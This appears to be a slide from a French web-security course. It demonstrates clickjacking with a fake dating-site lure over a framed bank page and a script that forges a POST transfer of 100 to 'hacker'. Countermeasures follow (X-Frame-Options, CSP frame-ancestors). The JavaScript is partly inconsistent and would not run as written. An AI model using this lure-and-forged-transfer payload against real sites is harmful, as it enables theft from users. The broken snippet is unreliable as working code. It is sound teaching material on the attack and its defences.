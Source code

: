 On ajoute une confirmation avant le transfert :
<https://aws-security.herokuapp.com/?confirm>

<input id="slider" type="range" min="0" max="1" step="0.01" value="0.02" />

<div id="main">
<iframe id="bank2"></iframe>
<div id="lonely">
### Bienvenue sur LonelyHearts.org

Il y des milliers de LonelyHearts dans notre site !

Ils n'attendent que toi !

**Vite ! Crée ton compte, c'est gratuit !**

<button id="button">Login</button>
</div>
</div>

<script>
$('#slider').on('change', function() {
    $('#bank2').css({ 'opacity' : $('#slider').value });
}).dispatchEvent(new Event('change'));
var form = Element.prototype.append.call($('#bank2').contentDocument.body, 'form#ecampus-form');
form.method = 'POST';
form.action = 'https://aws-security.herokuapp.com/transfer-w-confirm';
form.append = Element.prototype.append.bind(form);

data = { 'to' : 'hacker', 'amount' : '100' };
for (var n in data) {
	var i = form.append('input');
	i.type = 'text';
	i.name = n;
	i.value = data[n];
}
form.submit();
</script>

</section>
<section>

## Contre-mesures

- Entête
  [`X-Frame-Options`](https://developer.mozilla.org/docs/HTTP/X-Frame-Options),
  partie du standard CSP
  
  ~~~
  X-Frame-Options: SAMEORIGIN
  ~~~

- Directive
  [`frame-ancestors`](https://developer.mozilla.org/en-US/docs/Web/Security/CSP/CSP_policy_directives#frame-ancestors) de la [Content Security Policy](csp).
  
